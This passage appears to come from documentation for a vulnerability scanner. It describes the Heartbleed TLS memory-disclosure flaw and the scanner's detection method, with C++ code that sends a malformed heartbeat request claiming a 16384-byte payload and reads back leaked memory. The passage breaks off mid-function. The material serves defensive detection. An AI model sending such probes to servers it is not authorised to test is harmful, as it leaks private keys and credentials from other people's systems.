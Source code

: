 2. **Memory Disclosure:**
   - Server copies 64KB from process memory
   - Returns arbitrary memory contents to attacker
   - No authentication or authorization required

3. **Information Leakage:**
   - Memory may contain sensitive data from previous operations
   - Repeated requests can map large portions of memory
   - No logging or detection in vulnerable versions

## C3NT1P3D3 Detection Implementation

### Detection Strategy

Our implementation performs active detection by:

1. **TLS Connection Establishment:**
   - Initiates standard TLS handshake
   - Supports TLS 1.0, 1.1, and 1.2
   - Validates server certificate chain

2. **Malicious Heartbeat Injection:**
   ```cpp
   // Heartbeat request structure
   struct HeartbeatRequest {
       uint8_t type = 0x01;           // Heartbeat request
       uint16_t payload_length = 0x4000;  // 16384 bytes (FAKE)
       uint8_t payload[16];           // Actual payload (16 bytes)
       uint8_t padding[16];           // Random padding
   };
   ```

3. **Response Analysis:**
   - Vulnerable: Returns > 16 bytes (memory disclosure)
   - Patched: Returns exactly 16 bytes or error
   - No response: Heartbeat extension disabled

### Implementation Code Flow

```cpp
bool HeartbleedDetector::testHeartbleed(const std::string& target, int port) {
    // 1. Establish TLS connection
    SSL_CTX* ctx = SSL_CTX_new(TLS_client_method());
    SSL* ssl = SSL_new(ctx);
    
    // 2. Complete TLS handshake
    if (SSL_connect(ssl) != 1) {
        return false;  // Connection failed
    }
    
    // 3. Send malicious heartbeat
    unsigned char heartbeat[] = {
        0x18,              // Content Type: Heartbeat
        0x03, 0x02,        // TLS Version: 1.1
        0x00, 0x03,        // Length: 3 bytes
        0x01,              // Type: Request
        0x40, 0x00         // Payload Length: 16384 (FAKE!)
    };
    
    SSL_write(ssl, heartbeat, sizeof(heartbeat));
    
    // 4. Read response
    unsigned char response[65536];
    int bytes_read = SSL_read(ssl, response, sizeof(response));
    
    // 5. Analyze response
```